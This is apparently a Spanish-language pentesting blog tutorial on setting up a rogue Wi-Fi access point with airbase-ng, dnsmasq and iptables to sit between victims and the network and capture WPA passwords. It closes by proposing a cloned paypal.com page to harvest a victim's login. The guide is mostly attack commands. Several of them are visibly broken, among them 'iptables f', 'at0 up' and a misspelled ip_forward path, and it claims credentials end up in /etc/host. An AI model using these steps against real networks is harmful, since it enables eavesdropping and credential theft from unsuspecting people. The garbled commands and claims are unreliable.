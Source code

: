 ```yaml
---
title: MTD - Fake Ap 
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Medio]
---
```



¡Hola! Hoy vamos a montar un fake AP para poder obtener la contraseña WPA de la red Wireless,
puede usarse un método manual con airbase-ng, o algún script automatizado
como airgeddon.


### Técnicas Vistas: 

- **RogueApp con Airbase**
- **DNSmasq**
- **Duplicado de Servicio Web**
* * *

# Preparación Entorno
Para empezar con nuestro ejercicio comenzaremos con la creación del FakeAP con `rogueAP`. Para esto necesitaremos tener nuestra interfaz USB activada en modo monitor.

```bash
airmon-ng check kill
```
```bash
airmon-ng start wlan0
```

Y con ello mataremos cualquier proceso que pueda hacer crashear nuestra interfaz USB e iniciaremos el modo monitor en nuestra interfaz USB, podemos comprobarlo con el uso de `iwconfig`.

* * * 
# RogueAP con Airbase
Una vez preparada nuestra interfaz USB podremos comenzar con la creación del `Rogue Acces Point` para obtener las credenciales WPA, para ello suplantaremos la dirección MAC, el nombre y su canal del punto de acceso.

Nuestro nombre de red será `Concepto De Prueba` en este caso para poder visualizar bien el ejercicio y lo colocaremos en el canal 6 y lo iniciaremos en la interfaz USB en `Mode : Monitor`

```bash
airbase-ng -c 6 -essid "Prueba de concepto" wlan0mon
```

Una vez creado el `Acces Point` veremos que se nos crea una nueva interfaz de red `at0`, lo que haremos es configurarla para que sea la puerta de enlace hacia nuestra red.

* * *


# Configuración de RogueAP

Nuestro objetivo en este punto es hacer que nuestra nueva interfaz de red `at0`
sea la puerta de enlace hacia nuestra red así poder esnifar el tráfico y estar en medio de las comunicaciones.

```bash
ifconfig at0 192.168.1.1 netmask 255.255.255.0
```
```bash 
at0 up
```

Podemos observar con `ìfconfig` que nuestra interfaz de red tiene la dirección de IP y la máscara red seleccionada.

En el siguiente punto veremos como configurar `dnsmasq` para poder enrutar la conexión de nuestra nueva red con nuestra máquina.

* * * 

# DNSMASQ
Dnsmasq es un script automatizado que nos ayudará a enrutar las redes de nuestra máquina con la nueva red que hemos creado como Rogue Acces Point.

`DNSMASQ` lo podemos instalar desde nuestra máquina linux facilmente `apt install dnsmasq`
Una vez instalado vamos a ver la configuración red que tenemos preinstalada en nuestra máquina y enrutaremos la red `Prueba de Concepto` con la red que tenemos en nuestra máquina para ello usaremos

```bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1 
```

Seguidamente limpiaremos las `IPTABLES` y `nat` 

```bash
iptables f
```
```bash
iptables -f nat -F 
```
Y las enrutaremos de nuevo con las de nuestra red.

```bash
iptables -A FORWARD -i wlan0mon -o eth0 -j ACCEPT
```

```bash
iptables -A FORWARD -i at0 -o eth0 -j ACCEPT
```
Al igual lo haremos en las tablas `NAT`
```bash
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
Una vez configurada las `IPTABLES` le diremos a nuestro sistema que nuestra interfaz de red va a servir para hacer un `ip_forward` lo que quiere decir que todo paquete que entre en nuestra red y no sea para nuestro equipo, `nuestra máquina` será la encargada de enviarlo hacia su destinatario. Lo que conseguimos ponernos en medio de las comunicaciones.

```bash
echo 1 > /proc/sys/nat/ipv4/ip_foward
```

Ahora ejecutaremos dnsmasq con el fichero de configuracion previamente configurado.

```bash
dnsmasq -C ./dnsmasq.conf -D
```

El comando `-D` hará que nuestro script se mantenga activo como un `devil` y en segundo plano trabajando como un servicio. Una vez establecida la conexión. 


* * *

# HABILITAR SERVICIO DE APACHE
En este punto de la conexión red podriamos hacer una aplicación web en relación con nuestra víctima (página web que suela frecuentar) y deberiamos configurarla en nuestro fichero `/etc/host`

Ejemplo explicado: Podríamos crear un duplicado de la web de paypal.com haciendo que cuando nuestra víctima entre, se conectará directamente a nuestra máquina que con un simple script hará que el firewall le solicite reloguearse haciendo que se guarden las credenciales en nuestro fichero de archivo `etc/host`

* * *

